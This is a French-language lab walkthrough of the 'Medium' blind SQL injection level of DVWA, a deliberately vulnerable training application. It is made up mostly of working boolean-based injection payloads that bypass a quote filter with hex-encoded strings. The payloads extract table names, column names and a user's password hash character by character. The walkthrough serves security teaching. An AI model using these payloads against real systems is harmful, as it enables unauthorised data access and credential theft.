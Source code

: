 # Niveau "Medium"

Pour ce niveau "Medium", le champ de type `<input>` devient un champ `<select>` :

![](../../../../.gitbook/assets/505a07d309ed78b0ab3251c5d9ad6ff5.png)

De plus, la requête n'est plus de type **`GET`** mais de type **`POST`** :

![](../../../../.gitbook/assets/3891b089c6a39abd4bbb087fb2946b0e.png)

Pour se simplifier la vie, je transforme à la volée le champ `<select>` en champ `<inpu/>` (via Burp ici) :

![](../../../../.gitbook/assets/4d32088f3c989162713d34226c54cb3c.png)

Je confirme ensuite l'injection ainsi que son type, numérique :

![](../../../../.gitbook/assets/1f4f6f48508dba119ff4d156490ef9fc.png)

Je détermine également le nom de la base :

![](../../../../.gitbook/assets/25ec934adcc5a98cdc1379779ebfb3e6.png)

```sql
1 AND ORD(MID(DATABASE(),1,1)) = 100  // d
1 AND ORD(MID(DATABASE(),2,1)) = 118  // v
1 AND ORD(MID(DATABASE(),3,1)) = 119  // w
1 AND ORD(MID(DATABASE(),4,1)) = 97   // a
```

La prochaine action est de récupérer les noms des tables, mais il semble que le caractère `"'"` soit filtré :

![](../../../../.gitbook/assets/63fe1d5e7910343ba81b717d2ed40e92.png)

Il me faut donc trouver un moyen de contourner cette limitation. Pour cela la chaîne de caractères sera écrite en notation hexadécimale (`0x64767761` est équivalent à `dvwa`) :

![](../../../../.gitbook/assets/264917ef13056bf1b12a8d8fa9f2613e.png)

Soit pour la table `guestbook` :

```sql
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),1,1)) = 103  // g 
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),2,1)) = 117  // u
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),3,1)) = 101  // e
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),4,1)) = 115  // s
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),5,1)) = 116  // t
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),6,1)) = 98   // b
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),7,1)) = 111  // o
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),8,1)) = 111  // o
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),9,1)) = 107  // k
```

Puis pour la table `users` :

```sql
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),1,1)) = 117 // u 
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),2,1)) = 115 // s
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),3,1)) = 101 // e
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),4,1)) = 114 // r
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),5,1)) = 115 // s
```

Ensuite, je retrouve le nombre de colonnes de la table `users` (`0x7573657273` pour `users`) :

```sql
1 AND ORD(MID((SELECT COUNT(column_name) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761),1,1)) = 56  // 8 
```

Puis les noms des colonnes de cette table avec ici la colonne `user` :

```sql
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 3,1),1,1)) = 117  // u 
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 3,1),2,1)) = 115  // s
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 3,1),3,1)) = 101  // e
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 3,1),4,1)) = 114  // r
```

Ainsi que la colonne `password` :

```sql
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),1,1)) = 112  // p 
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),2,1)) = 97   // a
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),3,1)) = 115  // s
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),4,1)) = 115  // s
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),5,1)) = 119  // w
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),6,1)) = 111  // o
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),7,1)) = 114  // r
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),8,1)) = 100  // d
```

Finalement, le mot de passe de l'utilisateur Pablo (équivalent à `0x7061626C6F`) :

```sql
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),1,1)) = 48    // 0 
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),2,1)) = 100   // d
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),3,1)) = 49    // 1
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),4,1)) = 48    // 0
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),5,1)) = 55    // 7
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),6,1)) = 100   // d
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),7,1)) = 48    // 0
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),8,1)) = 57    // 9
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),9,1)) = 102   // f
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),10,1)) = 53   // 5
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),11,1)) = 98   // b
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),12,1)) = 98   // b
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),13,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),14,1)) = 52   // 4
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),15,1)) = 48   // 0
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),16,1)) = 99   // c
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),17,1)) = 97   // a
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),18,1)) = 100  // d
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),19,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),20,1)) = 51   // 3
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),21,1)) = 100  // d
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),22,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),23,1)) = 53   // 5
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),24,1)) = 99   // c
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),25,1)) = 55   // 7
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),26,1)) = 49   // 1
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),27,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),28,1)) = 57   // 9
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),29,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),30,1)) = 57   // 9
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),31,1)) = 98   // b
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),32,1)) = 55   // 7
```

Soit :

![](../../../../.gitbook/assets/6d75b9397dbe0c57747a75e7b2a5485c.png)
